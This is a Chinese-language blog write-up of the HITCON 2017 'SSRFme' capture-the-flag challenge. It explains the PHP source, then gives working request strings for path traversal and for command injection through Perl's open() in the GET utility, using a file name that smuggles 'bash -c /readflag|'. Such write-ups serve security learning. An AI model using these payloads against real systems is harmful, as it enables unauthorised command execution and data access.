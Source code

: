 ```yaml
---
title: '[HITCON 2017]SSRFme'
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/avatar.jpg'
authorAbout: steamID：888007034
authorDesc: 'Blizzard：TroyeSivan#51769'
categories: 技术
comments: true
date: 2020-08-12 00:24:13
authorLink:
tags: GET命令执行漏洞
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-1094203.jpg
---
```


![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200812005103.png)

explode(separator,string)函数把以separator为分隔字符串将字符串打散为数组。

“REMOTE_ADDR”为正在浏览当前页面用户的 IP 地址。

escapeshellarg()把字符串转码为可以在 shell 命令里使用的参数

pathinfo() 函数以数组的形式返回文件路径的信息。包括以下的数组元素：
 [dirname] //路径名
 [basename] //文件名
 [extension] //扩展名

basename() 函数返回路径中的文件名部分。

根据源码可以发现php会对传过去的参数用escapeshellarg函数过滤。先创建一个目录sandbox/md5(orange+ip)，然后执行GIT $_GET['url']，然后会创建文件夹，并将执行GIT $_GET['url']后的结果放在该文件夹下面filename传过去的文件中。

一、GET ./可以查看当前路径，GET …/可以查看上一级路径
?url=../../../../../../&filename=a或者?url=/&filename=aaa
然后访问可以看到flag和readflag
猜想执行readflag flag可以得到flag，接下来就是如何构造并执行了。

二、利用perl的open命令有可能会导致命令执行
perl在open当中可以执行命令，如:
 open(FD, "ls|")或open(FD, "|ls")
都可以执行ls命令，而GET是在perl下执行的，当GET使用file协议的时候就会调用到perl的open函数，这就是我们要利用的点，
利用bash -c "cmd string"来执行命令执行readflag。（不用bash -c可以直接/readflag读取flag）
1、首先得满足前面的文件存在, 才会继续到open语句, 所以在执行命令前得保证有相应的同名文件:
2、?url=&filename=bash -c /readflag| 先新建一个名为“bash -c /readflag|”的文件，用于之后的命令执行
3、?url=file:bash -c /readflag|&filename=aaa 再利用GET执行bash -c /readflag保存到111文件
4、访问sandbox/md5/aaa（得到flag）
